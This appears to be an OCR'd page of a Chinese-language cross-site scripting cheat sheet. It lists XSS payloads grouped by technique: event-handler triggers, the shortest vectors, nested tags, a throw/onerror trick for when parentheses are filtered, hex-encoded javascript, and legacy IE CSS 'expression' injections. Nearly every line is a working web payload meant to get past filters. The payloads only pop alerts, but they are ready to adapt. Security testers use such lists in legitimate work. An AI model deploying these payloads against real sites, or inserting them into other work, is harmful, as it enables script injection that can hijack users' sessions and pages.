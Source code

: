 #### 事件触发

```
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">

```

#### 最短的测试向量

```
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效

```

#### 嵌套

```
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8有效

```

#### 过滤括号的情况下

当括号被过滤的时候可以使用throw来绕过

```
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">

```

以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：

```
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>

```

#### expression属性

```
<img style="xss:expression(alert(0))"> // IE7以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

```

